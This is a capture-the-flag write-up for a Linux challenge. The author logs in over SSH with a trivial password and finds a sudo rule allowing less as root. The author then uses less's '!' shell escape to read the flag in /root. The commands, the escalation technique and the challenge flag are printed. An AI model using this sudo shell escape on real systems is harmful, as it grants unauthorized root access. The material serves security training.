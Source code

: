 # A thief in Santa's House (linux) (author: stn)

## Description

```shell
Santa Claus is leaving for Christmas Tour. Unfortunately someone is trying to steal the secrets. Save the Christmas and be the first one. Get the flag in /root folder and escape.

Use elf with elf password for ssh connection.

PS: What a careless elf left the account with a really trivial password!
```

## Task analysis & solution

We have these details and hints provided to us from the get go:

- user: **`elf`**
- password: **`elf`**
- the docker instance to connect to
- A hint that the flag is in the **`/root`** folder

First, let's connect with the given details:

```shell
ssh 10.10.8.61 -p <port> -l elf
```

```
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-127-generic x86_64)
Last login: Tue Dec 31 14:08:54 2024 from 10.4.24.45
elf@fd3414fe8fed:~$
```

When I connected, I decided to take a look arround. Let's see who we are and what our home directory is:

```shell
$ pwd && whoami
/home/ubuntu
elf
```

We know the flag is in /root, so let's naively try to list the contents of that:

```shell
elf@fd3414fe8fed:~$ ls /root
ls: cannot open directory '/root': Permission denied
```
As a non-root user, access to the /root directory is restricted by default. This limitation emphasizes the need for privilege escalation.

At this point, we probably need to see exactly what we CAN do. The command 'sudo -l' can show us that. It is used to list the privileges and permissions a user has when running commands with sudo. Essentially, it shows what commands the user is allowed to execute with sudo based on the configuration in the /etc/sudoers file or any additional sudoers configuration files.

```shell
elf@fd3414fe8fed:~$ sudo -l
Matching Defaults entries for elf on fd3414fe8fed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User elf may run the following commands on fd3414fe8fed:
    (root) NOPASSWD: /usr/bin/less /root/sharedsecret.txt
```

Well well well, the user elf can run the less command as root on the file /root/sharedsecret.txt without a password. Let's see:

```shell
elf@fd3414fe8fed:~$ sudo /usr/bin/less /root/sharedsecret.txt | cat
The flag is really near!
```

Of course, that would've been too easy.. The good thing is that most of the time these viewer programs have a way to execute shell commands. In the case with LESS, a simple Google search reveals that you can do that with an exclamation mark in front or just enter interactive shell mode by doing ``!sh``. 

So, ``!ls /root`` should work inside LESS. Let's try that:

```shell
elf@fd3414fe8fed:~$ sudo /usr/bin/less /root/sharedsecret.txt

!ls /root

flag.txt  sharedsecret.txt

```

It worked. Now we know there is one more file inside /root - flag.txt. Now let's just do !cat flag.txt inside LESS:

```shell
!cat /root/flag.txt

MilestoneCTF{make_Santa_happy_make_the_World_See}
```

The flag is **`MilestoneCTF{make_Santa_happy_make_the_World_See}`** 


